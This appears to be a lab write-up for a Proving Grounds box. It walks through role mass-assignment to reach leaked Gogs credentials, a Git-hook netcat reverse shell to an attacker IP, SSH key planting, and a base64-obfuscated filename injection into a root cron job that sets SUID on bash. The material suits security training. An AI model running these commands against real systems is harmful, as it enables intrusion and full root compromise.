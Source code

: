 - All: #notes-pg #gogs #api #git-hook #reverse-shell #netcat-busybox #pspy #cron #find #exec #bash-p #base64
- Foothold: #notes-pg #api
- Access: #gogs #git-hook #reverse-shell #netcat-busybox
- Priv Esc: #pspy #cron #find #exec #bash-p #base64
#### Enumeration

>[!code] Enumerate the ports
>- rustscan -a $ip
>
>![Pasted image 20240609145513](/Images/Pasted%20image%2020240609145513.png)

>[!code]- Note the web server at port 8000 (a Gogs service)
>- A Gogs service:
>
>![Pasted image 20240610045354](/Images/Pasted%20image%2020240610045354.png)
#### Local.txt
##### Find login credentials for the Gogs service

>[!code]- Navigate to the web server on port 80 (a notes.pg service)
>We're met with a login page:
>>[!code]- Screenshot of the login page
>>![Pasted image 20240610043302](/Images/Pasted%20image%2020240610043302.png)

>[!code]- Create an account and note the POST payload
Note the POST data used when creating an account:
>```powershell
>authenticity_token=pR8JHMdHN-duxwY2UT7Kd5JPwOz61k5fcjR79C-tPYT87LDqLvI3VgylAkUhINhKxz9W9nZYUMhAcBXyFVNL4g&user%5Busername%5D=new_user&user%5Bpassword%5D=new_password&user%5Bpassword_confirmation%5D=new_password&button=
>```

>[!code]- Discover that we don't have access to all the posted notes on the website
>- After creating a note we see we can access it at http://assignment.pg/notes/6
>- So there must be another 5 notes
>- We are told we have _Insufficient rights!_ to access ../notes/1
>
>>[!code]- Create a new note
>>![Pasted image 20240610044141](/Images/Pasted%20image%2020240610044141.png)
>
>>[!code]- Note the URL of the created note (.../notes/6)
>>![Pasted image 20240610044202](/Images/Pasted%20image%2020240610044202.png)
>
>>[!code]- Cannot access .../notes/1
>>![Pasted image 20240610044356](/Images/Pasted%20image%2020240610044356.png)

>[!Exploit]- Priv Esc 1. Find leaked credentials for another account
>- The _members_ page includes the POST payload of a created account.
>- It suggests an account has the username _forged_owner_:_forged_owner_
>
>>[!code]- The members page
>>![Pasted image 20240610043459](/Images/Pasted%20image%2020240610043459.png)

>[!exploit]- Priv Esc 2. Abuse the _role_ attribute when creating a new account
>- When browsing our profile information, we see there is a _role_ attribute which equals _member_.
>- In contrast, the _role_ attribute for the _jane_ account is _owner_.
>- This suggests when creating a new account we can set this role attribute to owner.
>
>>[!code]- Profile of our account
>>![Pasted image 20240611045102](/Images/Pasted%20image%2020240611045102.png)
>
>>[!code]- Profile of the _jane_ account
>>![Pasted image 20240611045138](/Images/Pasted%20image%2020240611045138.png)
>
>So, when creating a new account (_forged_owner_), we can edit the payload to make our role be an _owner_:
>```powershell
>authenticity_token=oPR93X4UzlLdlPeg_Aek9v3XDDJLLoL3hXS8pHLwzOPz8ER61j8nzjESjr4Tsq-_VGRhZBVCZ9TSr9VZqIe5YQ&user[username]=forged_owner&user[role]=owner&user[password]=forged_owner&user[password_confirmation]=forged_owner&button=
>```

>[!code]- Login as _forged_user_ and get access to note 1
>- It appears to contain credentials for the Gogs service (running at port 8000):
>
>>[!code]- Note 1
>>![Pasted image 20240610044811](/Images/Pasted%20image%2020240610044811.png)

>[!success]- Obtain credentials `jane`:`svc-dev2022@@@!;P;4SSw0Rd`
##### Obtain a reverse shell via the Gogs service

>[!code]- Login to Gogs and create a new repository
>Create a new repository
>>[!code]- Create a new repository
>>![Pasted image 20240610045601](/Images/Pasted%20image%2020240610045601.png)

>[!exploit]- Exploit - We can edit the _update_ Git Hook to execute a reverse shell
>Update the 'update' Git Hook so that it executes a reverse shell.
>- The code within the update Git Hook will execute when the repository is updated, eg when something it committed to it.
>- The chosen reverse shell is [Netcat Busybox](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#netcat-busybox)
>
>>[!code]- Adding a reverse shell into the update Git Hook
>>![Pasted image 20240610045801](/Images/Pasted%20image%2020240610045801.png)
>
>>[!code]- Netcat Busybox reverse shell
>>```bash
>>rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4242 >/tmp/f
>>```

>[!code]- Clone the repository to execute the Git Hook
>To update the repository we can add a file to the repository:
>```bash
>$ git clone http://assignment.pg:8000/jane/test.git
>$ cd test
>$ touch README.md
>$ git init
>$ git add README.md
>$ git commit -m "first commit"
>```
>___
>
>Setup a listener on Kali:
>```bash
>$ nc -lvnp 1234
>```
>___
>
>Push the changes to the repository and catch the reverse shell with the listener:
>```bash
> git push origin master
>```

>[!success]- Obtain local.txt
>After receiving our reverse shell, we can find local.txt:
>![Pasted image 20240610053205](/Images/Pasted%20image%2020240610053205.png)

>[!code]- Get SSH access as Jane
>Create the authorized_keys folder on victim:
>```bash
>$ cd /home/jane/.ssh/
>$ touch authorized_keys
>```
>Copy my public key on Kali into the authorized_keys files on victim:
>```bash
>bubbleman@kali>$ cat id_ed25519.pub
>$ echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICht3Ccu4rTtNKLaGqJzTTqFu7MwpBQuPpftcfBYADxn bubbleman@kali' > authorized_keys
>```
>SSH into victim as jane:
>```bash
>bubbleman@kali>$ ssh jane@192.168.235.224 -i ~/.ssh/id_ed25519
>```
#### Proof.txt

>[!code]- Run pspy and find a cron job running a vulnerable find command
>- A script is executing a vulnerable command as root
>
>>[!code]- Cron job
>>![Pasted image 20240612044104](/Images/Pasted%20image%2020240612044104.png)
>
>We have write permissions on the /dev/shm/ folder:
>>[!code]- /dev/shm/ permissions
>>![Pasted image 20240612044327](/Images/Pasted%20image%2020240612044327.png)

>[!exploit]- Exploit - Create a malicious file for the find command
>- The cron job finds all files within the _/dev/shm/_ directory and passes them to the _rm_ command which executes them
>- We can create a new file which adds SUID permissions to the _/bin/bash_ file (ignore the backslash before the double equals sign)
>
>```bash
>jane@assignment:/tmp$ touch /dev/shm/'$(echo -n Y2htb2QgdStzIC9iaW4vYmFzaA\==|base64 -d|bash)'
>```
>
>>[!code]- The decoded base64 string
>>![Pasted image 20240611052054](/Images/Pasted%20image%2020240611052054.png)
>
>This would cause the cron script to execute:
>```bash
>sh -c 'rm $(echo -n Y2htb2QgdStzIC9iaW4vYmFzaA\==|base64 -d|bash)'
>```
>After creating the file, /dev/shm/ contains:
>>[!code]- /dev/shm with the malicious file
>>![Pasted image 20240612045538](/Images/Pasted%20image%2020240612045538.png)
>
>The permissions of the /bin/bash change after executing:
>>[!code]- /bin/bash permission change
>>Before:
>>![Pasted image 20240612045037](/Images/Pasted%20image%2020240612045037.png)
>>After:
>>![Pasted image 20240612045606](/Images/Pasted%20image%2020240612045606.png)
>
>Now we can execute bash with the permissions of the owner (**-p**):
>
>![Pasted image 20240612045719](/Images/Pasted%20image%2020240612045719.png)

>[!success]- Obtain proof.txt
>
>![Pasted image 20240612045907](/Images/Pasted%20image%2020240612045907.png)




